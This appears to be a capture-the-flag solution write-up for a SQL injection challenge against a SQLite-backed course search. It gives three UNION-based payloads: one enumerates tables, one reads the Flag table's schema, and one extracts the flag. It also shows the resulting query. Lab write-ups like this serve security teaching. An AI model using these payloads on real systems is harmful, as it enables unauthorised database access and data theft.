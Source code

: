 # Solution

1. You can write this command to get the tables name from the database:
```
%' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```
The final request behind the scene will translate to look like this:
```
SELECT name FROM Course WHERE name LIKE '%' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- %';
```

2. Then, once you spot the table `Flag`, you then need the structure of the table, for which this command
is useful:
```
%' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='Flag' --
```

3. With the structure and the name of the column for the table Flag `flag`, you can show it's content 
and win this challenge this way:
```
%' UNION SELECT flag FROM Flag --
```